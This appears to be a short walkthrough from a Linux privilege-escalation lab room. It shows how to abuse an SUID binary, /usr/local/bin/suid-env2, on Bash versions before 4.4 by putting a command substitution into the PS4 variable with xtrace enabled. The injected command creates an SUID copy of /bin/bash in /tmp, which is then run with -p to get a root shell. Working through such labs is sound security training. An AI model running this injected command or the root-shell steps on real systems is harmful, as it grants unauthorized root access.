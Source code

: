 Note: This will not work on Bash versions 4.4 and above.

When in debugging mode, Bash uses the environment variable **PS4** to display an extra prompt for debugging statements.  

Run the **/usr/local/bin/suid-env2** executable with bash debugging enabled and the PS4 variable set to an embedded command which creates an SUID version of /bin/bash:

`env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2`

![[Pasted image 20240224094346.png]]

Run the /tmp/rootbash executable with -p to gain a shell running with root privileges:

`/tmp/rootbash -p`

![[Pasted image 20240224094510.png]]

Remember to remove the /tmp/rootbash executable and exit out of the elevated shell before continuing as you will create this file again later in the room!

`rm /tmp/rootbash   exit`

Answer the questions below

Read and follow along with the above.